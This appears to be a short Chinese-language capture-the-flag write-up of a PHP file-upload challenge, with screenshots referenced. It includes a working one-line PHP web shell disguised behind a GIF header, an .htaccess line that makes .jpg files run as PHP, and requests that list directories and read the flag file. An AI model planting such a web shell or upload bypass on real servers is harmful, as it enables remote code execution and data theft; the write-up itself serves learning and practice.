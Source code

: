 ![](<./img/Pasted image 20221107195420.png>)

先随便传个png上去试试

![](<./img/Pasted image 20221107200358.png>)

经过一番尝试发现接受jpeg类型

![](<./img/Pasted image 20221107200345.png>)

改为html风格发现上传成功

![](<./img/Pasted image 20221107200720.png>)
```html
GIF98a
<script language='php'>eval($_GET['cmd']);</script>
```
尝试上传.htaccess，将对jpg文件的访问方式修改

![](<./img/Pasted image 20221107201553.png>)
```
AddType application/x-httpd-php .jpg
```
访问
```php
/upload/xxx/tmp.jpg?cmd=phpinfo();
```
![](<./img/Pasted image 20221107201905.png>)

成功上传
由于`system`被ban，通过`scandir`来查看目录
```php
/?cmd=var_dump(scandir('/'));
```
![](<./img/Pasted image 20221107202258.png>)

最后用`file_get_contents`读取
```php
/?cmd=var_dump(file_get_contents('/flag'));
```
![](<./img/Pasted image 20221107202336.png>)

学到的知识用上了，开心QwQ

#Web #文件上传 #RCE #PHP #bypass 